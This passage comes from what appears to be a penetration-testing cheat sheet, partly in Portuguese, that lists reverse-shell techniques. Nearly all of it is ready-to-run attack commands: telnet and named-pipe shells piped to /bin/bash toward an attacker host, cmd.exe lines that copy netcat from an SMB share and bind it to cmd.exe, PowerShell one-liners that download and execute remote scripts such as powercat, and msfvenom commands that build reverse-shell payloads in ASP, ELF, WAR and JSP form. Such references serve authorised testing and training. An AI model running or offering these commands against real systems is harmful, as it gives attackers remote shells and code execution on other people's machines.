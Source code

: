 Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip
    
# telnet

    telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
    
    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

# CMD

Aqui vale uns comentários. Vale ressalltar que todos eles dependem de um terceiro para funcionar. Seja o netcat ou seja o powershell com duas variações interessantes.

Como o CMD em si não proporciona nenhuma ferramenta para obtermos shell reversa, temos algumas opções interessantes aqui  disponíveis... são elas:

    C:\Windows\System32\cmd.exe /c "mkdir c:\temp & copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"
 
Nesse caso temos a opção de subir um netcat na máquina alvo e executá-lo conforme comando acima. Outra opção seria utilizar o powershell para abertura dessa shell

    C:\Windows\System32\cmd.exe /c "powershell -ExecutionPolicy Bypass -Command [scriptblock]::Create((Invoke-WebRequest "http://192.168.0.165/shell2.txt").Content).Invoke();"
    
    C:\Windows\System32\cmd.exe /c "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.165/powercat.ps1');powercat -c 192.168.0.165 -p 8083 -e powershell"

# msfvenom

## Windows (web)
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp


## linux  
    msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=192.168.119.181 LPORT=80 > rshell.elf


## java

WAR PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.150 LPORT=80 -f war -o rshell.war

JSP PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp -f raw LHOST=192.168.119.143 LPORT=5555 > shell.jsp